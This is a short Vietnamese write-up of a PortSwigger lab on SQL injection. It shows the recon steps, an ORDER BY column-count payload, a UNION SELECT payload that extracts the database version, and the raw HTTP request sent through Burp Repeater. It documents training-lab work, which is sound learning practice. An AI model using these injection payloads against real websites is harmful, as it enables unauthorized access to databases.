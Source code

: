 # Write-up: SQL injection attack, querying the database type and version on MySQL and Microsoft

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin phiên bản DB trong một lab của PortSwigger

### Mục tiêu
Trích xuất thông tin phiên bản DB.

### Công cụ:
- BurpSuite Community
- Firefox Browser

### Các bước thực hiên
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả**: lỗi SQL xuất hiện, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

- Xác định số cột hiển thị bảng bằng:
  - Payload:
    ```
    'ORDER BY 3-- -
    ```
    ![cột](./images/column.png)
  - **Kết quả**: Có hai cột trả về (3-1=2) và DB là Mysql do sau dấu comment là khoảng trắng (`-- comment`) 

2. **Tạo Payload**
- Tạo payload kiểu tấn công UNION để lấy thông tin phiên bản của MySQL
    ```
    'UNION SELECT 'a', @@version FROM information_schema.tables-- -
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+'a',+%40%40version+FROM+information_schema.tables--+- HTTP/2
    ```
    ![payload](./images/payload.png)

- **Kết quả**: lấy được thông tin phiên bản của DB và hoàn thành lab.
  ![hoàn thành](./images/finish.png)


### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.